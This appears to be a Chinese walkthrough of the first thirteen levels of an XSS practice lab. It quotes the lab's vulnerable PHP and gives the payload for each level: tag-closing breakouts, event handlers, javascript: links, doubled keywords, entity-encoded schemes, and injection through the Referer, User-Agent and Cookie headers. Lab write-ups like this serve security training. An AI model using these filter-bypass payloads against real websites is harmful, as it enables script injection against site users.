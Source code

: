 @[toc]
> 靶场在线地址 ： http://test.xss.tv
### 第一关

![image-20230826092337054](./imgs/1e0a54cd32b90594f5c62586c398dd69.png)

观察页面

```php
http://192.168.80.139/xsschallenge/level1.php?name=test
```

尝试在`name=`后面输入最近基本的xss语法

```js
<script>alert(1)</script>
```



![image-20230826092430528](./imgs/1f812f4e5e35fe6e6d4d565be5061666.png)

### 第二关

![image-20230826092527275](./imgs/cfe151b822e5c65e385b04a92aa92827.png)

查看页面源代码

![image-20230826092631554](./imgs/0be034b7f3efe383294576f29ed7ea69.png)

可以通过构造闭合

```js
"> <script>alert(1)</script>
```

![image-20230826092745587](./imgs/3619d2e5267d77b63d6e03761810eb6d.png)

### 第三关

![image-20230826092807791](./imgs/de00ed1fe24e6ceb2d85d260f981ea2d.png)

查看页面源代码

![image-20230826092840649](./imgs/8e98e1bb074a493b716841667e482006.png)

发现过滤了特殊字符

通过单引号闭合，使用触发事件来绕过

```js
' onclick='alert(/xss/)
```

![image-20230826093111014](./imgs/a07fcb8e3ff6ebf6b1fdffa6a1110da5.png)

### 第四关

![image-20230826093217934](./imgs/3b6368906c547b0a4f94bc80f32a6560.png)

过滤了`<  >`标签

可是试着尝试上一关的方法



```js
" onclick="alert(1)
```

![image-20230826093411768](./imgs/2f6fcd7d4bf42dd81b904830f650de8b.png)

### 第五关

![image-20230826093450544](./imgs/ed19bf5bf9ecf6b9aa1ec60ddee58e51.png)

通过查看源码得知，替换了`script`为`scr_ipt`

使用大写绕过，看看是否可行

```js
<SCRIPT>alert(10)</SCRIPT>
```

![image-20230826093607816](./imgs/d671934da9483cfb51fb9231f34058cf.png)

发现还是不行，后端把 我们输入的大写，替换成了小写

尝试其他方法绕过，使用伪协议

```js
"> <a href=javascript:alert(1)>demo</a>
```

![image-20230826093829811](./imgs/0d14bb018838566a71236b1d08d0812b.png)

### 第六关

输入`<script>alert(1)</script>`测试，查看源代码，依旧替换了script

![image-20230826093917830](./imgs/7d0abfb91bae102274ea6c7d62b6e568.png)

```js
"><Img sRc=# OnErRoR=alert(/xss/);>
```

![image-20230826094351798](./imgs/c657c84d1b634e56b391664f0f126788.png)

### 第七关

使用上一关的通过代码，发现把`on`给过滤掉 了，还把`href`给过滤了

![image-20230826094454508](./imgs/eb8970a166703300be1abc60fa777c2f.png)

我们可以尝试点击事件，双写`on`，来绕过

```js
" oonnclick=alert(1)//
```

![image-20230826094814182](./imgs/08d18a05d4c7a3727173a777aefc6ee4.png)

### 第八关

在页面输入框中输入`" onclick=alert(1)//`

查看页面源代码，发现双引号被做了转义，只能通过其他方式去绕过

![image-20230826094935553](./imgs/edfb429d2b75d5d8833445b453f73e7a.png)

可以↓方式去绕过

```js
j&#9;avasc&#10;r&#13;ipt:alert(/xss/)
```

![image-20230826095126535](./imgs/f3a95c92a4eb3ece2ff3a7855467c818.png)

### 第九关

```js
j&#9;avasc&#10;r&#13;ipt:alert('http://')
```

![image-20230826095231664](./imgs/0e5c09f8f6de1b57ab7558e0ef4b3d2a.png)

### 第十关

![image-20230826095259344](./imgs/d8aeccf025388759f3336e3587090211.png)

没有输入框可以在地址栏中绕过

```js
192.168.80.139/xsschallenge/level10.php?keyword=<script>alert(1)</script>
```

![image-20230826095343659](./imgs/1d0232e306d5e898566426fa1ecf85da.png)

页面没有反应，

查看页面源代码，发现三个隐藏起来的输入框

![image-20230826095435964](./imgs/2fd70c73a12bffa858b779661606818c.png)

![image-20230826095456884](./imgs/0c1b6760346713107b89ab5f6dd123b8.png)

可以尝试使用`t_link\t_history\t_sort`这三个 挨个尝试

发现只有 在`t_sort`输入的时候，才有变化

```js
http://192.168.80.139/xsschallenge/level10.php?t_sort=<script>alert(1)</script>
```

![image-20230826095734280](./imgs/7b724a91b53287b47a712c6262f2be61.png)

构造其他方法

```js
" type="test" onclick="alert(1)
```

![image-20230826095927057](./imgs/735e474d0aaa8c9eb047e4c71b4ed2b4.png)

### 第十一关

代码审计

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_REFERER'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ref"  value="'.$str33.'" type="hidden">
```

查看页面代码

![image-20230826100644573](./imgs/fef2637d05016111540afc66a80ba29b.png)

发现`t_ref`的`value`值是第十关的 地址

```js
" type="button" onclick="alert(1)
```



![image-20230826100809931](./imgs/3904276e401978436b5130246fd92280.png)



也可以使用`bp`抓取数据包修改Referer字段的值

### 第十二关

代码审计

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_SERVER['HTTP_USER_AGENT'];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_ua"  value="'.$str33.'" type="hidden">
```

```js
" type="button" onmouseover="alert(1)"
```



![image-20230826101507977](./imgs/38612d48699031609fbf1dbbf7f4db53.png)



### 第十三关

代码审计

```php
$str = $_GET["keyword"];
$str00 = $_GET["t_sort"];
$str11=$_COOKIE["user"];
$str22=str_replace(">","",$str11);
$str33=str_replace("<","",$str22);
echo "<h2 align=center>没有找到和".htmlspecialchars($str)."相关的结果.</h2>".'<center>
<form id=search>
<input name="t_link"  value="'.'" type="hidden">
<input name="t_history"  value="'.'" type="hidden">
<input name="t_sort"  value="'.htmlspecialchars($str00).'" type="hidden">
<input name="t_cook"  value="'.$str33.'" type="hidden">
```

```php
user=" type="button" onmouseover="alert(1)"
```

![image-20230826101736586](./imgs/f21891e9524e3359599a0d34d1f214f7.png)